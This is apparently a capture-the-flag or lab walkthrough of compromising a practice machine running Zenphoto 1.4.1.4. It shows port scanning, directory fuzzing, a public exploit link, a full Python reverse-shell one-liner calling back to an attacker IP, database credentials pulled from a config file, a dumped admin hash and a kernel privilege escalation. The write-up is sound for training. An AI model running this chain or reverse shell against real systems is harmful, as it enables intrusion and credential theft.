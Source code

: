 `nmap -A -T4 -p- 192.168.152.41`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.4
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```


```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.41:80/FUZZ
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.41:23/FUZZ -fc 403
```

```
index                   [Status: 200, Size: 75, Words: 2, Lines: 5, Duration: 1179ms]
test                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 38ms]
```


`http://192.168.152.41/test/ zenphoto version 1.4.1.4` [POC](https://www.exploit-db.com/exploits/18083)

![](Images/Pasted%20image%2020250504124423.png)

We were able to get a shell from the exploit, and found we had python installed so we could establish a more stable shell

![](Images/Pasted%20image%2020250504124647.png)

```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.244",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![](Images/Pasted%20image%2020250504124726.png)

We can use this shell to grab the local.txt proof.

![](Images/Pasted%20image%2020250504124858.png)


# Post Exploitation
Standard post exploit, move linpeas over and execute nothing really stood out in the linpeas, but looking through the source and nmap scan shows theres a DB

![](Images/Pasted%20image%2020250504130015.png)

We find credentials
```
$conf['mysql_user'] = 'root';           // Supply your Database user id.
$conf['mysql_pass'] = 'hola';           // Supply your Database password.
$conf['mysql_host'] = 'localhost';  // Supply the name of your Database server.
$conf['mysql_database'] = 'zenphoto';       // Supply the name of Zenphoto's database 
```

We can login `mysql -u root -p`

![](Images/Pasted%20image%2020250504130159.png)

`admin:63e5c2e178e611b692b526f8b6332317f2ff5513`

Lets see if we can do anything with this. That didn't do anything, lets try the kernel exploits in linpeas output

![](Images/Pasted%20image%2020250504130912.png)

![](Images/Pasted%20image%2020250504131039.png)

That worked.

![](Images/Pasted%20image%2020250504131057.png)






